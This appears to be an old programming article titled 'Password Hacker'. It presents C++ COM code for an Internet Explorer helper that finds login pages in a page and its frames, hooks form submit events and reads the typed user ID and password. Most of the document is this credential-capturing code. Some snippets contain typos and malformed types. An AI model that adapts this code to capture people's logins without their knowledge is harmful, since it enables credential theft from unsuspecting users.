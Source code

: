            Password Hacker


//
CComPtr<IDISPATCH> spDisp; 
HRESULT hr = m_pWebBrowser2->get_Document(&spDisp);
if (SUCCEEDED(hr) && spDisp)
{ 
    // If this is not an HTML document (e.g., it's a Word doc or a PDF), don't sink.
    CComQIPtr<IHTMLDOCUMENT2 &IID_IHTMLDocument2> spHTML(spDisp);
     if (spHTML)
     { 
         /*there can be frames in HTML page enumerate each of frameset or iframe
              and find out if any of them contain a login page*/
           EnumFrames(spHTML);  
    }
}

void CIeLoginHelper::EnumFrames(CComPtr<IHTMLDocument2>& spDocument) 
{    
    
    CComPtr<IIHTMLDocument2> spDocument2;
    CComPtr<IIOleContainer> pContainer;
    // Get the container
    HRESULT hr = spDocument->QueryInterface(IID_IOleContainer,
                (void**)&pContainer);
    
    CComPtr<IIEnumUnknown>pEnumerator;
    // Get an enumerator for the frames
    hr = pContainer->EnumObjects(OLECONTF_EMBEDDINGS, &pEnumerator);
    IUnknown* pUnk;
    ULONG uFetched;

    // Enumerate and refresh all the frames
    BOOL bFrameFound = FALSE;
    for (UINT nIndex = 0; 
            S_OK == pEnumerator->Next(1, &pUnk, &uFetched);
                nIndex++)
    {
        CComPtr<IIWebBrowser2> pBrowser;
        hr = pUnk->QueryInterface(IID_IWebBrowser2, 
                (void**)&pBrowser);
        pUnk->Release();
        if (SUCCEEDED(hr))
        {
            CComPtr<IIDispatch> spDisp;
            pBrowser->get_Document(&spDisp);
            CComQIPtr<IHTMLDocument2, &
                         IID_IHTMLDocument2> spDocument2(spDisp);
            //Now recursivley browse through all of
                        //IHTMLWindow2 in a doc                    
            RecurseWindows(spDocument2);
            bFrameFound = TRUE;

        }
    }
    if(!bFrameFound || !m_bFoungLoginPage)
    {

        CComPtr<IIHTMLElementCollection> spFrmCol;
        CComPtr<IIHTMLElementCollection> spElmntCol;
        /*multipe <FORM> object can be in a page,
                 connect to each one them
        You never know which one contains uid and pwd fields
        */
        hr = spDocument->get_forms(&spFrmCol);
        // get element collection from page to check 
                if a page is a lgoin page
        hr = spDocument->get_all(&spElmntCol);
        if(IsLoginPage(spElmntCol))
                   EnableEvents(spFrmCol);    
    }        
}

If a page has a password field, then you'll be interested in getting the user ID and password.
C++
Shrink ▲   Copy Code

BOOL  CIeLoginHelper::IsLoginPage(CComPtr<IHTMLElementCollection>&spElemColl)
{
    if(spElemColl == NULL)
        return m_bFoungLoginPage;
    _variant_t varIdx(0L, VT_I4);
    long lCount = 0;
    HRESULT hr  = S_OK;
    hr = spElemColl->get_length (&lCount);
    if (SUCCEEDED(hr))
    {
        for(long lIndex = 0; lIndex <lCount; lIndex++ ) 
        { 
            varIdx=lIndex;
                    CComPtr<IDispatch>spElemDisp;
            hr = spElemColl->item(varIdx, varIdx, &spElemDisp);
            if (SUCCEEDED(hr))
            {
                CComPtr<IHTMLInputElement> spElem;
                hr = spElemDisp->QueryInterface(IID_IHTMLInputElement, (void**)&spElem);
                if (SUCCEEDED(hr))
                {
                    _bstr_t bsType;
                    hr = spElem->get_type(&bsType.GetBSTR());
                    if(SUCCEEDED(hr) && bsType.operator==(L"password"))
                    {
                        m_bFoungLoginPage = true;
                    }
                }
            }
            if(m_bFoungLoginPage)
                return m_bFoungLoginPage;
        }
    }
    return m_bFoungLoginPage;
}

Once you determine the target page, all you've to do is walk through the form collection and connect to the events of the form elements, as below:
C++
Shrink ▲   Copy Code

_variant_t varIdx(0L, VT_I4);
long lCount = 0;
HRESULT hr  = S_OK;
hr = pElemColl->get_length (&lCount);
if (SUCCEEDED(hr))
{
    for(long lIndex = 0; lIndex <lCount; lIndex++ ) 
    { 
           varIdx=lIndex;
           hr=pElemColl->item(varIdx, varIdx, &pElemDisp);

        if (SUCCEEDED(hr))
        {
            hr = pElemDisp->QueryInterface(IID_IHTMLFormElement, (void**)&pElem);

            if (SUCCEEDED(hr))
            {
                // Obtained a form object.
                IConnectionPointContainer* pConPtContainer = NULL;
                IConnectionPoint* pConPt = NULL;    
                // Check that this is a connectable object.
                hr = pElem->QueryInterface(IID_IConnectionPointContainer,
                    (void**)&pConPtContainer);
                if (SUCCEEDED(hr))
                {
                    // Find the connection point.
                    hr = pConPtContainer->FindConnectionPoint(
                        DIID_HTMLFormElementEvents2, &pConPt);

                    if (SUCCEEDED(hr))
                    {
                        // Advise the connection point.
                        // pUnk is the IUnknown interface pointer for your event sink
                        hr = pConPt->Advise((IDispatch*)this, &m_dwBrowserCookie);
                        pConPt->Release();
                    }
                }
                pElem->Release();
            }
            pElemDisp->Release();
        }
    }
}

Capturing the user ID and password

The timing of data capture is important. The best time is when the form is being submitted. A form can be submitted in many ways:

Any of the above objects will trigger the event DISPID_HTMLFORMELEMENTEVENTS2_ONSUBMIT.

In this case, we've to handle:

    When an object of type <INPUT TYPE=submit> or <INPUT TYPE=image> or <BUTTON TYPE=submit> is clicked by the left mouse key, or the Enter key or space bar key is pressed.
    By calling form.submit in an event handler of an object's mouse or key event handler.
        DISPID_HTMLELEMENTEVENTS2_ONKEYPRESS and
        DISPID_HTMLELEMENTEVENTS2_ONCLICK

Once you know when to capture the data, the rest is very easy. All you do is walk through the element collection and retrieve the user ID and password.
C++
Shrink ▲   Copy Code

_variant_t varIdx(0L, VT_I4);
long lCount = 0;
HRESULT hr  = S_OK;
hr = pElemColl->get_length (&lCount);
if (SUCCEEDED(hr))
{
    for(long lIndex = 0; lIndex <lCount; lIndex++ ) 
{ 
  varIdx=lIndex; 
  hr=pElemColl->item(varIdx, varIdx, &pElemDisp);
    if (SUCCEEDED(hr))
    {
        hr = pElemDisp->QueryInterface(IID_IHTMLInputElement, (void**)&pElem);
        if (SUCCEEDED(hr))
        {
            _bstr_t bsType;
            pElem->get_type(&bsType.GetBSTR());
            if(bsType.operator ==(L"text"))
            {
                pElem->get_value(&bsUserId.GetBSTR());
            }
            else if(bsType.operator==(L"password"))
            {
                pElem->get_value(&bsPassword.GetBSTR());
            }
            pElem->Release();
        }

        pElemDisp->Release();
    }
    if(bsUserId.GetBSTR() && bsPassword.GetBSTR() && 
      ( bsUserId.operator!=(L"") && bsPassword.operator!=(L"") ) )
    {
        return;
    }            

    }
}

History

    V1.0.0.1 - First version.
    V1.0.1.1 - Uploaded on Aug 29, 2006. This version enumerates the frames in a page to find out if any of the frames has a login page.
